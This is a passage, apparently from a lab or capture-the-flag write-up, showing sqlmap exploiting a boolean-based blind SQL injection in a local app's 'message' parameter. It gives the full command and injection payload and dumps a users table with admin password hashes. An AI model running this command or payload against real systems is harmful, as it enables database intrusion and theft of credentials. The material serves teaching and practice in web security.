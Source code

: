 ```bash
[13:20:44] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite                           
[13:20:44] [INFO] fetching tables for database: 'SQLite_masterdb'
[13:20:44] [INFO] fetching number of tables for database 'SQLite_masterdb'
[13:20:44] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[13:20:44] [INFO] retrieved: 2                                                                                         
[13:20:44] [INFO] retrieved: users                  
[13:20:44] [INFO] retrieved: messages                                                                                  
<current>                     
[2 tables]                    
+----------+                                                                                                           
| messages |                      
| users    |                  
+----------+
```

Dump data from the users table:

```bash
> python sqlmap.py -u http://127.0.0.1:5000/submitmessage --data 'message=a' -p 'message' --dbms=sqlite -T users --dump

[...]

sqlmap resumed the following injection point(s) from stored session:
---
Parameter: message (POST)
    Type: boolean-based blind
    Title: SQLite boolean-based blind
    Payload: message=a' AND CASE WHEN 6418=6418 THEN 1 ELSE json('') END AND 'EDIB'='EDIB
---

[...]

[13:21:04] [INFO] retrieved: CREATE TABLE users(username varchar(20), secret varchar(200), role INT)
[13:21:06] [INFO] fetching entries for table 'users'
[13:21:06] [INFO] fetching number of entries for table 'users' in database 'SQLite_masterdb'
[13:21:06] [INFO] retrieved: 2
[13:21:06] [INFO] retrieved: 1
[13:21:06] [INFO] retrieved: f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105
[13:21:07] [INFO] retrieved: admin
[13:21:07] [INFO] retrieved: 0
[13:21:07] [INFO] retrieved: 84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec
[13:21:08] [INFO] retrieved: guest
[13:21:08] [INFO] recognized possible password hashes in column 'secret'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: <current>
Table: users
[2 entries]
+------+------------------------------------------------------------------+----------+
| role | secret                                                           | username |
+------+------------------------------------------------------------------+----------+
| 1    | f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105 | admin    |
| 0    | 84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec | guest    |
+------+------------------------------------------------------------------+----------+
```

